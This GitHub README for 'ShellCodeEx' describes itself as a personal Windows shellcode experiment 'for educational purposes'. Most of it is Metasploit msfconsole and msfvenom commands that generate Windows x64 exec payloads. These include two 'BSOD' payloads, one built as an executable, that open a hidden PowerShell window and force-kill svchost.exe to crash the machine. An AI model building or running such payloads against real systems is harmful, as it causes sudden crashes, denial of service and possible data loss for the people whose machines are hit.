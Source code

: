# ShellCodeEx

[![](https://img.shields.io/badge/platform-Windows-informational)](https://github.com/Zalexanninev15/ShellCodeEx)
[![](https://img.shields.io/badge/written_on-C-000000.svg?logo=c)](https://github.com/Zalexanninev15/ShellCodeEx)
[![](https://img.shields.io/badge/written_on-.NET_9-651DE5.svg?logo=dotnet)](https://dotnet.microsoft.com/download/dotnet/6.0)
[![](https://img.shields.io/badge/written_on-C%23-%23239120.svg?logo=sharp&logoColor=white)](https://github.com/Zalexanninev15/SharkRemoteV4)
[![](https://img.shields.io/github/v/release/Zalexanninev15/ShellCodeEx)](https://github.com/Zalexanninev15/ShellCodeEx/releases/latest)
[![](https://img.shields.io/github/downloads/Zalexanninev15/ShellCodeEx/total.svg)](https://github.com/Zalexanninev15/ShellCodeEx/releases)
[![](https://img.shields.io/github/last-commit/Zalexanninev15/ShellCodeEx/main.svg)](https://github.com/Zalexanninev15/ShellCodeEx/commits/main)
[![](https://img.shields.io/github/stars/Zalexanninev15/ShellCodeEx.svg)](https://github.com/Zalexanninev15/ShellCodeEx/stargazers)
[![](https://img.shields.io/github/forks/Zalexanninev15/ShellCodeEx.svg)](https://github.com/Zalexanninev15/ShellCodeEx/network/members)
[![](https://img.shields.io/badge/license-GPLv3-ligthgreen.svg)](LICENSE)
[![](https://img.shields.io/badge/Donate-FFDD00.svg?logo=buymeacoffee&logoColor=black)](https://z15.neocities.org/donate)

## Description

My personal experiment on executing shellcode on Windows. For educational purposes!!!

## Kali Linux commands for generate shellcode

Install Metasploit Framework:

```bash
sudo apt install metasploit-framework -y
```

### Test shellcode (need PowerShell 7 on Windows)

```bash
msfconsole -x "use payload/windows/x64/exec; set CMD 'pwsh -CommandWithArgs \"ls\" && pause'; generate -f ps1"
```

### Generate BSOD (building an executable file)

```bash
msfvenom --platform windows --arch x64 -p windows/x64/exec CMD='cmd.exe /c start /min powershell -Command "Start-Process cmd -ArgumentList \"/c taskkill /F /IM svchost.exe\" -WindowStyle Hidden"' -b '\x00\x0A\x0D' -f exe -o bsod_kali.exe
```

### Generate BSOD

```bash
msfconsole
> use payload/windows/x64/exec
> set CMD cmd.exe /c start /min powershell -Command \"Start-Process cmd -ArgumentList \\\"/c taskkill /F /IM svchost.exe\\\" -WindowStyle Hidden\"
```
